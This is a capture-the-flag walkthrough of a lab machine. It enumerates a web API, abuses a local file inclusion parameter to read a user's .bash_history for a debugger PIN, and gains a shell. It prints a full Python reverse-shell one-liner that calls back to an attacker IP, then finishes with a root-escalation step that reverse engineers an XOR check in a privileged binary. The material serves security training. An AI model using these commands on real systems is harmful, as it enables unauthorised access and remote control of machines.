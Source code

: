 # Recon

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936687528/03137f46-e7f8-44b4-a587-9b0630f6c9a8.png )

A standard `nmap` scan reviews that the target has 2 ports open running `http` services and a conventional ssh service port open. `nmap` script also identifies the existence of a `robots.txt` file on port 5000.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936722984/bf3cd713-9777-4d26-9cd2-fee486cbb4ff.png )

Navigating to the file located at port 5000 notifies us of the `/api` directory.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687936746056/0ea61b34-4e3b-462e-994d-63c16280fa65.png )

Navigating to the directory we are presented with an API documentation, from the looks of it we are able to send queries to the bookstore through the API.

# Enumeration

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937516188/9d6ad3d5-bce3-4f00-8337-ad0a8daba597.png )

It is a common courtesy to run `gobuster` when enumerating websites. The results show us that there is another interesting directory `/console`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937534994/22b83fb1-af7f-4770-9feb-c359e02b1595.png )

While we are able to access the console, it is protected by a PIN and the hint tells us that the PIN is printed out on the `stdout` stream of the shell that runs this server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687937718771/b2bbd27b-feb4-4e11-b98c-f75ec4b4687d.png )

With the previous information gathered, we take a detour back to the original site at port 80 and take a look at the page sources. The comment tells us that the PIN we are looking for is stored inside the `.bash_history` file of the user `sid`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687938050246/45b66c13-4909-47c9-be20-9cd2a8c61fc8.png )

Taking another look at the debugger when inspecting the original site, we spot a `.js` file. In the comment, we are told that the previous version of the API contained vulnerable parameters susceptible to [Local File Inclusion](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/) attacks.

# Gaining foothold

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940618629/f9963b70-347a-4275-99eb-c4ea50ed5450.png )

Knowing that the API was vulnerable to LFI attacks, we use [wfuzz](https://medium.com/@Q2hpY2tlblB3bnk/lfi-enumeration-3bd11c6f1814) to try to look for possible parameters that might not be disclosed. However, the results review nothing that we did not already know based on the documentation discovered previously.  
`--hc 404` specifies an HTTP status code to be negated in the results. Because we will run into a lot of unsuccessful attempts with the 404 return code, we save some terminal screen estate by not cluttering it with those attempts.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940646751/86c66e43-4d34-4a6a-89e6-500c4376993d.png )

We attempt the same fuzzing method again but for an older version number `v1` instead. This time we spot an interesting parameter `show`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687940667077/0b0aaa6a-d445-4a6e-a7dc-a91484b9bf89.png )

Following the cookie trail, we finally obtain the PIN when we query the `v1` version of the API with the parameter `?show=.bash_history`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687941147521/8cf55985-c625-481d-8371-5b0a04e40ba5.png )

The console tells us that we can execute Python expressions so we use the `subprocess` library to interact with the server. Here we can see that we are the user `sid` when we execute the `whoami` command.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687941625066/78f99d09-c34c-4039-b9b5-d17f36a8c7f1.png )

A subsequent `ls` show us the user flag in the form of a `.txt` file, we then `cat` the file and retrieve the user flag.

Knowing we will need to further explore the target, operation within the constraints of a Python console is less than ideal. We execute a Python [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) payload so we can operate in a shell environment on our machine.

```powershell
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",4443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
# Priv Escalation

After obtaining the shell on our `nc` listener, we start the process of privilege escalation to get the root flag.

Upon further inspection using `ls -la` we see a `try-harder` ELF binary file with root execution rights.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/a0e6bf96-c340-49fb-b97f-146d607548dc)

We use the `strings` command to investigate the binary and we spot an interesting string `/bin/bash -p` which would give us a privileged shell when executed by the binary.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/c2f1986f-df22-47bf-9b62-073ff64f1e99)

We transfer the binary onto our local machine with `python3` and `wget` in order to further analyze it using [Ghidra](https://ghidra-sre.org/).

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/fd6ab923-73c7-4909-b949-3ccc88ea30cf)

Loading the binary in Ghidra, we navigate to the `main` function. Here we can see that the program takes in user input with the `scanf` function and evaluates it. The user input is stored as `local_1c`. The result of `local_1c` XOR `0x1116` XOR `local_18 (0x5db3)` is then evaluated against `local_14 (0x5dcd21f4)`. If true, the command that gives us a privileged shell would be executed.

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/74d0532c-b72b-4bb2-a7a1-40033943cf5b)

We rearrange the equation and use Python to calculate the "magic number".

![image](https://github.com/sudonap/sudonap.github.io/assets/56335564/82f29b28-6c19-47f4-a4a0-b2f03e95f054)

We know that the reverse of any xor operation is itself so the reverse of bitxor is bitxor. 

Indeed, when we put the result of `0x5dcd6dea` into the original xor equation, it checkes out to the value of `0x5dcd21f4` which causes the program to call `/bin/sh -p`

After we input the magic number we are now `root`. Navigate to `/root` to obtain the root flag and complete the room.

# Conclusion

I started this room to further practice web API fuzzing. I was pleasantly surprised to encounter some reverse engineering to escalate to root. I wish that it was a bit more than just a basic analysis of the decompiled code. Nonetheless, I had a lot of fun doing the room and I hope this walkthrough helps you. Feel free to correct me if I made any mistakes in my explanation.

